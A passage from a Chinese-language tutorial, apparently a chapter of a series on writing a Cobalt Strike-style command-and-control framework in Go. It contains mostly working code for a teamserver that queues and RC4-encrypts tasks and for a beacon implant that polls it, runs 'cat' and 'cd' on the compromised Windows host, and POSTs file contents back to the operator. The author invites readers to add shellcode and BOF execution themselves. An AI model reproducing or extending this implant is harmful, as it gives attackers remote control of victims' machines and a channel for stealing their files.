    html := []byte(strings.ReplaceAll(handler.Config.PagePayload, "<<<PAYLOAD_DATA>>>", string(responseData)))  
    if _, err := ctx.Writer.Write(html); err != nil {  
       handler.pageError(ctx)  
       return  
    }  
  
    ctx.AbortWithStatus(http.StatusOK)  
    return  
}
```

`handler/listener/http_type.go` TeamServer接口定义BeaconGetAllTasks方法

```
type TeamServer interface {  
    BeaconIsExists(beaconId string) bool  
    BeaconCreate(beaconId string, beat []byte, listenerName string, ExternalIP string, Async bool) error  
    BeaconGetAllTasks(beaconId string, maxDataSize int) ([]byte, error)  
}
```

`server/beacon.go` 实现BeaconGetAllTasks方法

```
func (ts *TeamServer) BeaconGetAllTasks(beaconId string, maxDataSize int) ([]byte, error) {  
  
    value, ok := ts.Beacons.Get(beaconId)  
    if !ok {  
       return nil, fmt.Errorf("beacon type %v does not exists", beaconId)  
    }  
  
    beacon, _ := value.(*Beacon)  
  
    tasksCount := beacon.TasksQueue.Len()  
    if tasksCount > 0 {  
  
       tasks, err := ts.TaskGetAll(beacon.Data.Id, maxDataSize)  
       if err != nil {  
          return nil, err  
       }  
  
       respData, err := ts.Handler.BeaconPackData(beacon.Data, tasks)  
       if err != nil {  
          return nil, err  
       }  
  
       return respData, nil  
    }  
    return nil, nil  
}
```

`server/task.go`：TaskGetAll方法根据指定beaconId从Beacon任务队列中取出多个任务（有长度限制）

```
func (ts *TeamServer) TaskGetAll(beaconId string, availableSize int) ([]response.TaskData, error) {  
    value, ok := ts.Beacons.Get(beaconId)  
    if !ok {  
       return nil, fmt.Errorf("TaskGetAll: beacon %v not found", beaconId)  
    }  
    beacon, _ := value.(*Beacon)  
  
    var tasks []response.TaskData  
    tasksSize := 0  
  
    for i := uint(0); i < beacon.TasksQueue.Len(); i++ {  
       value, ok = beacon.TasksQueue.Get(i)  
       if ok {  
          taskData := value.(response.TaskData)  
          if tasksSize+len(taskData.Data) < availableSize {  
             tasks = append(tasks, taskData)  
             beacon.TasksQueue.Delete(i)  
             i--  
             tasksSize += len(taskData.Data)  
          } else {  
             break  
          }  
       } else {  
          break  
       }  
    }  
  
    return tasks, nil  
}
```

`handler/beacon.go` 补充BeaconPackData方法

```
func (h *Handler) BeaconPackData(beaconData response.BeaconData, tasks []response.TaskData) ([]byte, error) {  
    beaconHandler, ok := h.BeaconHandlers[beaconData.Name]  
    if !ok {  
       return nil, errors.New("beacon handler not found")  
    }  
    return beaconHandler.BeaconPackData(beaconData, tasks)  
}
```

`handler/types.go` 在BeaconHandler接口定义BeaconPackData方法

```
type BeaconHandler interface {  
    BeaconGenerate(beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
    BeaconCreate(beat []byte) (response.BeaconData, error)  
    BeaconCommand(client string, cmdline string, beaconData response.BeaconData, args map[string]any) error  
    BeaconPackData(beaconData response.BeaconData, tasks []response.TaskData) ([]byte, error)  
}
```

`handler/beacon/beacon_main.go` 实现BeaconHandler.BeaconPackData方法

```
func (b *BeaconHandler) BeaconPackData(beaconData response.BeaconData, tasks []response.TaskData) ([]byte, error) {  
    packedData, err := b.PackTasks(tasks)  
    if err != nil {  
       return nil, err  
    }  
  
    return b.EncryptData(packedData, beaconData.SessionKey)  
}
```

`handler/beacon/beacon_handler.go` 补充PackTasks方法，这个方法就是打包成最后的任务包，任务的数据结构见本章开头。解释一下 `array = append(array, int32(4+4+len(taskData.Data)))` ，第一个4是

```
func (b *BeaconHandler) PackTasks(tasksArray []response.TaskData) ([]byte, error) {  
  
    var (  
       packData []byte  
       array    []interface{}  
       err      error  
    )  
  
    for _, taskData := range tasksArray {  
  
       // 把十六进制的任务 ID 转成 int64       
       taskId, err := strconv.ParseInt(taskData.TaskId, 16, 64)  
       if err != nil {  
          return nil, err  
       }  
  
       // 一个任务包=任务包的长度（不包含长度字段，4B）+任务ID（4B）+任务数据（任务类型4B+Args）  
       array = append(array, int32(4+len(taskData.Data)))  
       array = append(array, int32(taskId))  
       array = append(array, taskData.Data)  
    }  
  
    packData, err = PackArray(array)  
    if err != nil {  
       return nil, err  
    }  
  
    return packData, nil  
}
```

`handler/beacon/beacon_handler.go` 补充EncryptData方法

```
func (b *BeaconHandler) EncryptData(data []byte, key []byte) ([]byte, error) {  
    return RC4Crypt(data, key)  
}
```

`handler/beacon/beacon_utils.go` 补充RC4Crypt方法

```
func RC4Crypt(data []byte, key []byte) ([]byte, error) {  
    rc4crypt, err := rc4.NewCipher(key)  
    if err != nil {  
       return nil, errors.New("rc4 crypt error")  
    }  
    decryptData := make([]byte, len(data))  
    rc4crypt.XORKeyStream(decryptData, data)  
    return decryptData, nil  
}
```

## 5.3 测试

### 5.3.1 任务创建

①**服务器启动**：在 `server/task.go` 的TaskCreate方法下一个断点，我只想看到最后任务数据是否进入到任务队列里



②**Beacon启动**



③**创建监听器**



④**创建任务**：一定要Beacon完成上线才能创建任务

```
{
    "beacon_type": "Beacon",
    "beacon_id": "55667788",
    "cmdline": "cat C:\Users\BitDefender\Desktop\ProcessExplorer\Eula.txt",
    "data": {
        "command": "cat",
        "path": "C:\Users\BitDefender\Desktop\ProcessExplorer\Eula.txt"
    }
}
```

用postman发送创建任务的请求



这时会在刚刚下的断点处停下



步过，看到ts对象的相应Beacon的任务队列中存放了任务数据



### 5.3.2 任务获取

①启动服务器

②用postman发送创建监听器请求

③用postman发送创建任务的请求（beacon一定要先注册，才能下发任务）

④beacon调式分析

**无任务**：


**错误**：



**有任务**：  
0~~3：除长度字段外任务包长度  
4~~7：TaskId  
8~~11：CommandId（或者说是CommandType）  
12~~n：Args，一些任务参数





# 六、任务执行与结果回显

## 6.1 任务包解读-Beacon端

还记得任务包长什么样子吗？这里再给出它的结构图，因为我们要根据按照服务器任务包打包顺序解读数据包的里内容。一个任务包=任务包的长度（不包含长度字段，4B）+任务ID（4B）+任务数据（任务类型4B+Args）


`utils/packet/unpacker.go` 包含解包器的相关方法

```
package packet

import (
    "bytes"
    "encoding/binary"
)

type Parser struct {
    buffer []byte
}

func CreateParser(buffer []byte) *Parser {
    return &Parser{
        buffer: buffer,
    }
}

func (p *Parser) Size() uint {
    return uint(len(p.buffer))
}

func (p *Parser) Check(types []string) bool {

    packerSize := p.Size()

    for _, t := range types {
        switch t {

        case "byte":
            if packerSize < 1 {
                return false
            }
            packerSize -= 1

        case "int16":
            if packerSize < 2 {
                return false
            }
            packerSize -= 2

        case "int32":
            if packerSize < 4 {
                return false
            }
            packerSize -= 4

        case "int64":
            if packerSize < 8 {
                return false
            }
            packerSize -= 8

        case "array":
            if packerSize < 4 {
                return false
            }

            index := p.Size() - packerSize
            value := make([]byte, 4)
            copy(value, p.buffer[index:index+4])
            length := uint(binary.BigEndian.Uint32(value))
            packerSize -= 4

            if packerSize < length {
                return false
            }
            packerSize -= length
        }
    }
    return true
}

func (p *Parser) ParseInt8() uint8 {
    var value = make([]byte, 1)

    if p.Size() >= 1 {
        if p.Size() == 1 {
            copy(value, p.buffer[:p.Size()])
            p.buffer = []byte{}
        } else {
            copy(value, p.buffer[:1])
            p.buffer = p.buffer[1:]
        }
    } else {
        return 0
    }

    return value[0]
}

func (p *Parser) ParseInt16() uint16 {
    var value = make([]byte, 2)

    if p.Size() >= 2 {
        if p.Size() == 2 {
            copy(value, p.buffer[:p.Size()])
            p.buffer = []byte{}
        } else {
            copy(value, p.buffer[:2])
            p.buffer = p.buffer[2:]
        }
    } else {
        return 0
    }

    return binary.BigEndian.Uint16(value)
}

func (p *Parser) ParseInt32() uint {
    var value = make([]byte, 4)

    if p.Size() >= 4 {
        if p.Size() == 4 {
            copy(value, p.buffer[:p.Size()])
            p.buffer = []byte{}
        } else {
            copy(value, p.buffer[:4])
            p.buffer = p.buffer[4:]
        }
    } else {
        return 0
    }

    return uint(binary.BigEndian.Uint32(value))
}

func (p *Parser) ParseInt64() uint64 {
    var value = make([]byte, 8)

    if p.Size() >= 8 {
        if p.Size() == 8 {
            copy(value, p.buffer[:p.Size()])
            p.buffer = []byte{}
        } else {
            copy(value, p.buffer[:8])
            p.buffer = p.buffer[8:]
        }
    } else {
        return 0
    }

    return binary.BigEndian.Uint64(value)
}

func (p *Parser) ParseBytes() []byte {
    size := p.ParseInt32()

    if p.Size() < size {
        return make([]byte, 0)
    } else {
        b := p.buffer[:size]
        p.buffer = p.buffer[size:]
        return b
    }
}

func (p *Parser) ParseString() string {
    size := p.ParseInt32()

    if p.Size() < size {
        return ""
    } else {
        b := p.buffer[:size]
        p.buffer = p.buffer[size:]
        return string(bytes.Trim(b, "\x00"))
    }
}

func (p *Parser) ParseString64() string {
    size := p.ParseInt64() // 读取8字节长度

    if p.Size() < uint(size) {
        return ""
    } else {
        b := p.buffer[:size]
        p.buffer = p.buffer[size:]
        return string(bytes.Trim(b, "\x00"))
    }
}

```

`profile/profile.go`：补充任务常量

```
const (
    COMMAND_CAT = 1
)
```

`main.go` 这不是最终代码，后面还会改很多次，这里主要是写了**任务包解读**的相关代码

1. 因为可以发送多个任务包，所以Beacon要用循环处理多个数据包
2. 先确保有4字节可读，才进行下一步
3. 根据0~3字节读取任务包数据，并用这个数据初始taskParser解析器
4. taskParser.buffer的0~~3是taskId，4~~7是commandId，8~n是命令参数
5. 紧接着根据commandId进入不同的处理分支，这一步没有写，后面会完成

```
func main() {
    var err error
    profile.BeaconProfile, err = profile.LoadConfig()
    if err != nil {
        panic(err)
    }
    fmt.Printf("%+v
", profile.BeaconProfile)

    heartBeat = sysinfo.InitHeartBeat()
    fmt.Printf("%+v
", heartBeat)

    metaData := sysinfo.PackHeartBeat(heartBeat)
    for {
        time.Sleep(time.Duration(profile.BeaconProfile.Sleep) * time.Second)
        AssemblyBuff, err := common.HttpGet(metaData)
        println(string(AssemblyBuff))
        if err == nil {
            parser := packet.CreateParser(AssemblyBuff)
            for parser.Size() > 0 {
                if parser.Size() < 4 {
                    fmt.Println("Not enough data for length field")
                    break
                }

                // 读取任务包
                taskData := parser.ParseBytes()
                taskParser := packet.CreateParser(taskData)

                // 解析任务ID和任务数据长度
                ok := taskParser.Check([]string{"int32", "int32"})
                if !ok {
                    fmt.Println("Not enough data for taskId and commandId")
                    break
                }
                taskID := taskParser.ParseInt32()
                commandId := taskParser.ParseInt32()

                switch commandId {
                case profile.COMMAND_CAT:
                    data := taskParser.ParseString()
                    fmt.Println(data)
                    fmt.Println("taskID: ", taskID)
                    fmt.Println("Command Id: ", commandId)
                }
            }
        }
    }
}
```

## 6.2 任务执行并打包结果

来到师傅们最熟悉的环节：任务执行。 网上已有大量公开资料与开源项目可供参考，覆盖范围从**基础命令**（ls、cd、mv、pwd、cat、whoami …）到**进阶玩法**（execute-BOF、execute-shellcode、execute-assembly、inline-execute等）五花八门。

为了教学方便，我只实现cd和cat命令，后面的各种进阶玩法就由各位师傅自己去拓展了。

**beacon端**

`utils/common/changeCp.go`

```
package common

import (
    "golang.org/x/text/encoding"
    "golang.org/x/text/encoding/charmap"
    "golang.org/x/text/encoding/simplifiedchinese"
    "golang.org/x/text/transform"
    "io"
    "strings"
)

var codePageMapping = map[int]encoding.Encoding{
    037:   charmap.CodePage037,   // IBM EBCDIC US-Canada
    437:   charmap.CodePage437,   // OEM United States
    850:   charmap.CodePage850,   // Western European (DOS)
    852:   charmap.CodePage852,   // Central European (DOS)
    855:   charmap.CodePage855,   // OEM Cyrillic (primarily Russian)
    858:   charmap.CodePage858,   // OEM Multilingual Latin 1 + Euro
    860:   charmap.CodePage860,   // Portuguese (DOS)
    862:   charmap.CodePage862,   // Hebrew (DOS)
    863:   charmap.CodePage863,   // French Canadian (DOS)
    865:   charmap.CodePage865,   // Nordic (DOS)
    866:   charmap.CodePage866,   // Russian (DOS)
    936:   simplifiedchinese.GBK, // Chinese (GBK)
    1047:  charmap.CodePage1047,  // IBM EBCDIC Latin 1/Open System
    1140:  charmap.CodePage1140,  // IBM EBCDIC US-Canada with Euro
    1250:  charmap.Windows1250,   // Central European (Windows)
    1251:  charmap.Windows1251,   // Cyrillic (Windows)
    1252:  charmap.Windows1252,   // Western European (Windows)
    1253:  charmap.Windows1253,   // Greek (Windows)
    1254:  charmap.Windows1254,   // Turkish (Windows)
    1255:  charmap.Windows1255,   // Hebrew (Windows)
    1256:  charmap.Windows1256,   // Arabic (Windows)
    1257:  charmap.Windows1257,   // Baltic (Windows)
    1258:  charmap.Windows1258,   // Vietnamese (Windows)
    20866: charmap.KOI8R,         // Russian (KOI8-R)
    21866: charmap.KOI8U,         // Ukrainian (KOI8-U)
    28591: charmap.ISO8859_1,     // Western European (ISO 8859-1)
    28592: charmap.ISO8859_2,     // Central European (ISO 8859-2)
    28593: charmap.ISO8859_3,     // Latin 3 (ISO 8859-3)
    28594: charmap.ISO8859_4,     // Baltic (ISO 8859-4)
    28595: charmap.ISO8859_5,     // Cyrillic (ISO 8859-5)
    28596: charmap.ISO8859_6,     // Arabic (ISO 8859-6)
    28597: charmap.ISO8859_7,     // Greek (ISO 8859-7)
    28598: charmap.ISO8859_8,     // Hebrew (ISO 8859-8)
    28599: charmap.ISO8859_9,     // Turkish (ISO 8859-9)
    28605: charmap.ISO8859_15,    // Latin 9 (ISO 8859-15)
    65001: encoding.Nop,          // Unicode (UTF-8)
}

func ConvertCpToUTF8(input string, codePage int) string {
    enc, exists := codePageMapping[codePage]
    if !exists {
        return input
    }

    reader := transform.NewReader(strings.NewReader(input), enc.NewDecoder())
    utf8Text, err := io.ReadAll(reader)
    if err != nil {
        return input
    }

    return string(utf8Text)
}

func ConvertUTF8toCp(input string, codePage int) string {
    enc, exists := codePageMapping[codePage]
    if !exists {
        return input
    }

    transform.NewWriter(io.Discard, enc.NewEncoder())
    encodedText, err := io.ReadAll(transform.NewReader(strings.NewReader(input), enc.NewEncoder()))
    if err != nil {
        return input
    }

    return string(encodedText)
}

```

`command/cat.go`

```
package command

import (
    "Beacon/utils/common"
    "Beacon/utils/packet"
    "encoding/binary"
    "os"
)

func Cat(packer *packet.Parser, ACP int) ([]byte, error) {

    // 1. 解析文件路径
    path := common.ConvertCpToUTF8(packer.ParseString(), ACP)

    // 2. 读取文件内容
    content, err := os.ReadFile(path)
    if err != nil {
        return nil, err
    }
    size := make([]byte, 4)
    binary.BigEndian.PutUint32(size, uint32(len(content)))
    content = append(size, content...)

    // 3. 打包返回文件内容
    arr := []interface{}{path, content}
    packed, err := packet.PackArray(arr)
    if err != nil {
        return nil, err
    }

    return packed, nil
}
```

**Server端**

因为server还没写cd的任务包，在这里补充

`handler/beacon/beacon_handler.go`

```
func (b *BeaconHandler) CreateTask(beacon response.BeaconData, command string, args map[string]any) (response.TaskData, error) {  
  
    var (  
       taskData response.TaskData  
       err      error  
    )  
  
    taskData = response.TaskData{  
       Type: TYPE_TASK,  
       Sync: true,  
    }  
  
    var array []interface{}  
  
    switch command {  
    case "cat":  
       path, ok := args["path"].(string)  
       if !ok {  
          err = errors.New("parameter 'path' must be set")  
          goto RET  
       }  
       array = []interface{}{int32(COMMAND_CAT), ConvertUTF8toCp(path, beacon.ACP)}  
    case "cd":  
       path, ok := args["path"].(string)  
       if !ok {  
          err = errors.New("parameter 'path' must be set")  
          goto RET  
       }  
       array = []interface{}{int32(COMMAND_CD), ConvertUTF8toCp(path, beacon.ACP)}  
    default:  
       err = errors.New(fmt.Sprintf("Command '%v' not found", command))  
       goto RET  
    }  
  
    taskData.Data, err = PackArray(array)  
    if err != nil {  
       goto RET  
    }  
  
RET:  
    return taskData, err  
  
}
```

`handler/beacon/types.go`

```
const (  
    COMMAND_CAT = 1  
    COMMAND_CD  = 2  
)
```

**Beacon端**

`command/cd.go`

```
package command

import (
    "Beacon/utils/common"
    "Beacon/utils/packet"
    "os"
)

func Cd(packer *packet.Parser,ACP int) ([]byte, error) {

    // 解析目录路径
    path := common.ConvertCpToUTF8(packer.ParseString(), ACP)

    // cd
    err := os.Chdir(string(path))
    if err != nil {
        return nil, err
    }

    // 获取当前路径
    dir, err := os.Getwd()
    if err != nil {
        return nil, err
    }

    // 打包返回当前目录
    arr := []interface{}{dir}
    packed, err := packet.PackArray(arr)
    if err != nil {
        return nil, err
    }

    return packed, nil
}
```

profile/profile.go

```
const (
    COMMAND_CAT = 1
    COMMAND_CD = 2
)
```

`main.go` 这并未包含结果返回的相关代码，而是直接将错误和结构输出

```
func main() {
    var (
        AssemblyBuff []byte
        err          error
        res          []byte
    )

    profile.BeaconProfile, err = profile.LoadConfig()
    if err != nil {
        panic(err)
    }
    fmt.Printf("%+v
", profile.BeaconProfile)

    heartBeat = sysinfo.InitHeartBeat()
    fmt.Printf("%+v
", heartBeat)

    metaData := sysinfo.PackHeartBeat(heartBeat)
    for {
        time.Sleep(time.Duration(profile.BeaconProfile.Sleep) * time.Second)
        AssemblyBuff, err = common.HttpGet(metaData, heartBeat.SessionKey)
        println(string(AssemblyBuff))
        if err == nil {
            parser := packet.CreateParser(AssemblyBuff)
            for parser.Size() > 0 {
                if parser.Size() < 4 {
                    fmt.Println("Not enough data for length field")
                    break
                }

                // 读取任务包
                taskData := parser.ParseBytes()
                taskParser := packet.CreateParser(taskData)

                // 解析任务ID和任务数据长度
                ok := taskParser.Check([]string{"int32", "int32"})
                if !ok {
                    fmt.Println("Not enough data for taskId and commandId")
                    break
                }
                taskID := taskParser.ParseInt32()
                commandId := taskParser.ParseInt32()

                switch commandId {
                case profile.COMMAND_CAT:
                    res, err = command.Cat(taskParser, int(heartBeat.ACP))
                    fmt.Println("taskID: ", taskID)
                case profile.COMMAND_CD:
                    res, err = command.Cd(taskParser, int(heartBeat.ACP))
                default:
                    err = errors.New("This type is not supported now.")
                }

                if err != nil {
                    fmt.Println("Error:", err)
                }
                fmt.Printf("%s
", string(res))
            }
        }
    }
}
```

用postman发送cat命令请求，Beacon的执行结果如下



用postman发送cd命令请求

```
{
    "beacon_type": "Beacon",
    "beacon_id": "55667788",
    "cmdline": "cd C:\Users\BitDefender\Desktop\ProcessExplorer",
    "data": {
        "command": "cd",
        "path": "C:\Users\BitDefender\Desktop\ProcessExplorer"
    }
}
```

Beacon的执行结果如下



## 6.3 结果返回

接下来就是将错误和结果打包成**结果包**，每完成一个任务就通过POST的方式发送给Server，所以结果包长什么样子呢？一个结果包 = 除长度字段外结果包长度 4B + taskId 4B + commandId 4B + 结果数据。**其实长度字段记录的长度都不包括其本身**，请各位师傅知悉！



接下来是Beacon端的代码

`profile/profile.go`：增加 `COMMAND_ERROR_REPORT` 表示命令执行出错

```
const (
    COMMAND_CAT = 1
    COMMAND_CD  = 2
    COMMAND_ERROR_REPORT  = 100
)
```

`utils/packet/packer.go`：增加MakeFinalPacket放用于打包最后的结果包

```
func MakeFinalPacket(taskId uint, commandId uint, data []byte) []byte {
    var (
        array    []interface{}
        err      error
        packData []byte
    )

    array = append(array, int32(taskId))
    array = append(array, int32(commandId))
    array = append(array, data)

    packData, err = PackArray(array)
    if err != nil {
        return nil
    }

    finalData := PackBytes(packData)

    return finalData
}
```

`utils/common/http.go` 增加HttpPost方法，用于将结果包发送给服务器

```
func HttpPost(metaData []byte, body []byte, sessionKey []byte) {

    url := profile.BeaconProfile.CallbackAddresses[0] + "/" + profile.BeaconProfile.URI

    // RC4加密metaData并base64url编码
    rc4Key := profile.BeaconProfile.EncryptKey
    encryptedMetaData, err := RC4Crypt(metaData, rc4Key)
    if err != nil {
        fmt.Printf("rc4 encrypt metaData error: %w
", err)
    }
    metaDataB64 := base64.RawURLEncoding.EncodeToString(encryptedMetaData)
    cookieValue := profile.BeaconProfile.HBPrefix + metaDataB64

    // RC4加密body
    encryptedBody, err := RC4Crypt(body, sessionKey)
    if err != nil {
        fmt.Printf("rc4 encrypt body error: %w
", err)
    }

    // 构造HTTP请求
    req, err := http.NewRequest("POST", url, bytes.NewReader(encryptedBody))
    if err != nil {
        fmt.Printf("request error: %w
", err)
    }
    req.Header.Set(profile.BeaconProfile.HBHeader, cookieValue)
    req.Header.Set(profile.BeaconProfile.UserAgent, "Mozilla/5.0 (Windows NT 10.0; Win64; x64)")

    // 发送HTTP POST请求
    client := &http.Client{}
    resp, err := client.Do(req)
    if err != nil {
        fmt.Printf("http error: %w
", err)
    }
    defer resp.Body.Close()

    // 读取响应体
    respBytes, err := io.ReadAll(resp.Body)
    if err != nil {
        fmt.Printf("read response error: %w
", err)
    }

    if resp.StatusCode != 200 {
        fmt.Println("Status:", resp.StatusCode)
        fmt.Println("Decrypted Response:", string(respBytes))
    }
    return
}

```

`main.go` 在代码的末尾调用MakeFinalPacket制作结果包，然后调用HttpPost发送结果包给服务器

```
func main() {
    var (
        AssemblyBuff []byte
        err          error
        res          []byte
        finalpacket  []byte
    )

    profile.BeaconProfile, err = profile.LoadConfig()
    if err != nil {
        panic(err)
    }
    fmt.Printf("%+v
", profile.BeaconProfile)

    heartBeat = sysinfo.InitHeartBeat()
    fmt.Printf("%+v
", heartBeat)

    metaData := sysinfo.PackHeartBeat(heartBeat)
    for {
        time.Sleep(time.Duration(profile.BeaconProfile.Sleep) * time.Second)
        AssemblyBuff, err = common.HttpGet(metaData, heartBeat.SessionKey)
        println(string(AssemblyBuff))
        if err == nil {
            parser := packet.CreateParser(AssemblyBuff)
            for parser.Size() > 0 {
                if parser.Size() < 4 {
                    fmt.Println("Not enough data for length field")
                    break
                }

                // 读取任务包
                taskData := parser.ParseBytes()
                taskParser := packet.CreateParser(taskData)

                // 解析任务ID和任务数据长度
                ok := taskParser.Check([]string{"int32", "int32"})
                if !ok {
                    fmt.Println("Not enough data for taskId and commandId")
                    break
                }
                taskId := taskParser.ParseInt32()
                commandId := taskParser.ParseInt32()

                switch commandId {
                case profile.COMMAND_CAT:
                    res, err = command.Cat(taskParser, int(heartBeat.ACP))
                    fmt.Println("taskID: ", taskId)
                case profile.COMMAND_CD:
                    res, err = command.Cd(taskParser, int(heartBeat.ACP))
                default:
                    err = errors.New("This type is not supported now.")
                }

                if err != nil {
                    fmt.Println("Error:", err)
                    finalpacket = packet.MakeFinalPacket(taskId, profile.COMMAND_ERROR_REPORT, []byte(err.Error()))
                    println(len(finalpacket))
                } else {
                    finalpacket = packet.MakeFinalPacket(taskId, commandId, res)
                    println(len(finalpacket))
                }
                common.HttpPost(metaData, finalpacket, heartBeat.SessionKey)
            }
        }
    }
}
```

接下来是Server的代码

`handler/listener/http_listener.go`：补充processResponse方法专门用于处理Beacon的结果回显。**本小节先不实现结果处理，直接打印结果数据**，只是为了验证Beacon是否成功POST到服务器。

```
func (handler *HTTP) processResponse(ctx *gin.Context) {  
  
    // 校验请求合法性  
    err := handler.validate(ctx)  
    if err != nil {  
       return  
    }  
  
    // 获取外部 IP    
    externalIP := strings.Split(ctx.Request.RemoteAddr, ":")[0]  
    if handler.Config.XForwardedFor {  
       xff := ctx.Request.Header.Get("X-Forwarded-For")  
       if xff != "" {  
          externalIP = xff  
       }  
    }  
  
    beaconId, beat, err := handler.parseBeat(ctx)  
    if err != nil {  
       handler.pageError(ctx)  
       return  
    }  
  
    if !listenerHTTP.ts.BeaconIsExists(beaconId) {  
       if err := listenerHTTP.ts.BeaconCreate(beaconId, beat, handler.Name, externalIP, true); err != nil {  
          handler.pageError(ctx)  
          return  
       }  
    }  
  
    // 处理 agent 数据  
    // 读取原始 body    
    bodyBytes, _ := io.ReadAll(ctx.Request.Body)  
    defer ctx.Request.Body.Close()  
  
    // 直接打印（十六进制 + 字符串）  
    log.Printf("[HTTP] ← Raw POST body (%d bytes):
%s", len(bodyBytes), hex.Dump(bodyBytes))  
    log.Printf("[HTTP] ← String view:
%s", string(bodyBytes))  
}
```

Beacon控制台输出：



server控制台输出：



因为我们用的是RC4加密，所以数据长度是一样的，还没解密故server控制台输出乱码。

至此，Beacon端的代码全部编写完成！

## 6.4 结果处理

上一小节我们只打印了结果包而没做其他处理，这一小节就是专门用于处理结果包的，按照结果包的顺序来解读结果包，解读之前需要进行解密。


`handler/listener/http_listener.go`

```
func (handler *HTTP) processResponse(ctx *gin.Context) {  
  
    // 校验请求合法性  
    err := handler.validate(ctx)  
    if err != nil {  
       return  
    }  
  
    // 获取外部 IP    
    externalIP := strings.Split(ctx.Request.RemoteAddr, ":")[0]  
    if handler.Config.XForwardedFor {  
       xff := ctx.Request.Header.Get("X-Forwarded-For")  
       if xff != "" {  
          externalIP = xff  
       }  
    }  
  
    beaconId, beat, err := handler.parseBeat(ctx)  
    if err != nil {  
       handler.pageError(ctx)  
       return  
    }  
  
    if !listenerHTTP.ts.BeaconIsExists(beaconId) {  
       if err := listenerHTTP.ts.BeaconCreate(beaconId, beat, handler.Name, externalIP, true); err != nil {  
          handler.pageError(ctx)  
          return  
       }  
    }  
  
    // 处理 agent 数据  
    // 读取原始 body    
    bodyBytes, _ := io.ReadAll(ctx.Request.Body)  
    defer ctx.Request.Body.Close()  
  
    // 直接打印（十六进制 + 字符串）  
    log.Printf("[HTTP] ← Raw POST body (%d bytes):
%s", len(bodyBytes), hex.Dump(bodyBytes))  
    log.Printf("[HTTP] ← String view:
%s", string(bodyBytes))  
  
    err = listenerHTTP.ts.BeaconProcessData(beaconId, bodyBytes)  
    if err != nil {  
       handler.pageError(ctx)  
    }  
  
    ctx.AbortWithStatus(http.StatusOK)  
}
```

`handler/listener/http_type.go` 定义BeaconProcessData方法

```
type TeamServer interface {  
    BeaconIsExists(beaconId string) bool  
    BeaconCreate(beaconId string, beat []byte, listenerName string, ExternalIP string, Async bool) error  
    BeaconGetAllTasks(beaconId string, maxDataSize int) ([]byte, error)  
    BeaconProcessData(beaconId string, bodyData []byte) error  
}
```

`server/beacon.go` 实现BeaconProcessData

```
func (ts *TeamServer) BeaconProcessData(beaconId string, bodyData []byte) error {  
    value, ok := ts.Beacons.Get(beaconId)  
    if !ok {  
       return fmt.Errorf("beacon type %v does not exists", beaconId)  
    }  
    beacon, _ := value.(*Beacon)  
  
    if beacon.Data.Async {  
       beacon.Data.LastTick = int(time.Now().Unix())  
       beacon.Tick = true  
    }  
  
    if beacon.Data.Mark == "Inactive" {  
       beacon.Data.Mark = ""  
    }  
  
    if len(bodyData) > 4 {  
       _, err := ts.Handler.BeaconProcessData(beacon.Data, bodyData)  
       return err  
    }  
  
    return nil  
}
```

`handler/beacon.go` 补充BeaconProcessData

```
func (h *Handler) BeaconProcessData(beaconData response.BeaconData, packedData []byte) ([]byte, error) {  
    beaconHandler, ok := h.BeaconHandlers[beaconData.Name]  
    if !ok {  
       return nil, errors.New("module not found")  
    }  
    return beaconHandler.BeaconProcessData(beaconData, packedData)  
}
```

`handler/types.go` 定义BeaconProcessData方法

```
type BeaconHandler interface {  
    BeaconGenerate(beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
    BeaconCreate(beat []byte) (response.BeaconData, error)  
    BeaconCommand(client string, cmdline string, beaconData response.BeaconData, args map[string]any) error  
    BeaconPackData(beaconData response.BeaconData, tasks []response.TaskData) ([]byte, error)  
    BeaconProcessData(beaconData response.BeaconData, packedData []byte) ([]byte, error)  
}
```

`handler/beacon/beacon_main.go` 实现BeaconProcessData方法

```
func (b *BeaconHandler) BeaconProcessData(beaconData response.BeaconData, packedData []byte) ([]byte, error) {  
    decryptData, err := b.DecryptData(packedData, beaconData.SessionKey)  
    if err != nil {  
       return nil, err  
    }  
  
    taskData := response.TaskData{  
       Type:        TYPE_TASK,  
       BeaconId:     beaconData.Id,  
       FinishDate:  time.Now().Unix(),  
       MessageType: MESSAGE_SUCCESS,  
       Completed:   true,  
       Sync:        true,  
    }  
  
    err = b.ProcessTasksResult(b.ts, beaconData, taskData, decryptData)  
    if err!= nil {  
       return nil, err  
    }  
    return nil, nil  
}
```

`handler/beacon/beacon_handler.go` 补充DecryptData方法

```
func (b *BeaconHandler) DecryptData(data []byte, key []byte) ([]byte, error) {  
    return RC4Crypt(data, key)  
}
```

`handler/beacon/types.go` 补充COMMAND\_ERROR\_REPORT常量

```
const (
    COMMAND_CAT          = 1
    COMMAND_CD           = 2
    COMMAND_ERROR_REPORT = 100
)
```

`handler/beacon/beacon_handler.go`

```
func (b *BeaconHandler) ProcessTasksResult(ts TeamServer, beaconData response.BeaconData, taskData response.TaskData, packedData []byte) error {  
  
    // 创建一个新的packer  
    parser := CreateParser(packedData)  
    if false == parser.Check([]string{"int32", "int32", "int32"}) {  
       return errors.New("data length not match")  
    }  
  
    resultData := parser.ParseBytes()  
    resultParser := CreateParser(resultData)  
    taskId := resultParser.ParseInt32()  
    commandId := resultParser.ParseInt32()  
    task := taskData  
    task.TaskId = fmt.Sprintf("%08x", taskId)  
    switch commandId {  
    case COMMAND_CAT:  
  
       // 检查结果数据长度  
       if false == resultParser.Check([]string{"array", "array"}) {  
          return errors.New("result data length not match")  
       }  
  
       // 解析文件路径和文件内容  
       path := ConvertCpToUTF8(resultParser.ParseString(), beaconData.ACP)  
       fileContent := resultParser.ParseBytes()  
  
       // 构造任务消息  
       task.Message = fmt.Sprintf("'%v' file content:", path)  
       task.ClearText = string(fileContent)  
    case COMMAND_CD:  
  
       // 检查是否有足够的数据  
       if false == resultParser.Check([]string{"array"}) {  
          return errors.New("result data length not match")  
       }  
  
       // 解析目录路径  
       path := ConvertCpToUTF8(resultParser.ParseString(), beaconData.ACP)  
  
       // 构造任务消息  
       task.Message = "Current directory:"  
       task.ClearText = path  
  
    case COMMAND_ERROR_REPORT:  
  
       // 检查是否有足够的数据  
       if false == resultParser.Check([]string{"array"}) {  
          return errors.New("result data length not match")  
       }  
  
       // 解析错误信息  
       errorMsg := ConvertCpToUTF8(string(resultParser.ParseBytes()), beaconData.ACP)  
  
       // 构造任务消息  
       task.Message = "Error report:"  
       task.ClearText = errorMsg  
  
    default:  
       return errors.New("unknown command")  
    }  
  
    fmt.Printf("messageType: %v, message: %v, clearText: %v
", task.MessageType, task.Message, task.ClearText)  
